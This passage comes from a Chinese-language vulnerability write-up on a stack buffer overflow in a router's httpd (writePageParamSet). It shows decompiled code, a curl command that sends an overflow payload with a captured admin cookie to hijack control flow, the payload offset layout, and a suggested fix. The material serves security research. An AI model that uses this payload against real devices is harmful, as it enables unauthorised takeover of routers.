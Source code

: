 ```
    if ((auStack3600[0] &lt; 9) &amp;&amp; ((1 &lt;&lt; (auStack3600[0] &amp; 0x1f) &amp; 0x1c8U) != 0)) `{`
      HttpWebV4Head(param_1,0,0);
      pcVar9 = "/userRpm/popupSiteSurveyRpm_AP.htm";
    `}`
    else `{`
      HttpWebV4Head(param_1,0,1);
      pcVar9 = "/userRpm/popupSiteSurveyRpm.htm";
    `}`
  `}`
  iVar1 = httpRpmFsA(param_1,pcVar9);
  if (iVar1 == 2) `{`
    return 2;
  `}`
  sVar10 = HttpErrorPage(param_1,10,0,0);
LAB_0045fa54:
  return (int)sVar10;
`}`
```

我们使用curl发送HTTP请求给我们的路由器，测试漏洞是否存在。为了能够访问存在漏洞的服务，我们首先需要登陆，即我们需要抓取登陆后的**Cookie**（此处为**%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D**）和**path**(此处为**MKSRWOTBRLXMCITC**)，然后作为发送参数。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t016cb7b355fbcb55f8.png)

使用curl来写入我们的payload，httpd发生段错误，并且程序控制流呗控制为0x61656161

```
curl -H 'Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D' 'http://10.211.55.8/YEHFDFSAMIIOATRA/userRpm/popupSiteSurveyRpm_AP.htm?mode=1000&amp;curRegion=1000&amp;chanWidth=100&amp;channel=1000&amp;ssid='$(python -c 'print( "/%0A"*0x55 + "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac")')''
```

[![](https://p4.ssl.qhimg.com/t0118f33322ff3a12cd.png)](https://p4.ssl.qhimg.com/t0118f33322ff3a12cd.png)

很明显缓冲区溢出发生在函数writePageParamSet，并且在其返回的时候劫持了函数执行流。最后lw了四个寄存器ra,s2,s1,s1,s0，通过这个可以辅助判断我们发生溢出的大概位置。执行之后sp会加0x288，当然这条指令是在跳转之前执行的，因为指令流水线。

[![](https://p4.ssl.qhimg.com/t015f70e7e73a642a5f.png)](https://p4.ssl.qhimg.com/t015f70e7e73a642a5f.png)

另外一边，我们看到页面打印出大量的`&lt;/br&gt;`，也验证了我们之前的代码审计，writePageParamSet是将输入的数据写入Javascript的Param对象中。同时也通过1位字节换4位字节的方式写入超出界限的数据，如果要修补这个漏洞也很简单，只需要将缓冲区扩大四倍就行了，或者修改stringModify，让产生`&lt;/br&gt;`的时候指针size+4而不是size+1。

经过计算payload每一位应为**0x55*”/%0A”+2+s0+s1+s2+ra**

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01da792691c5af521b.png)
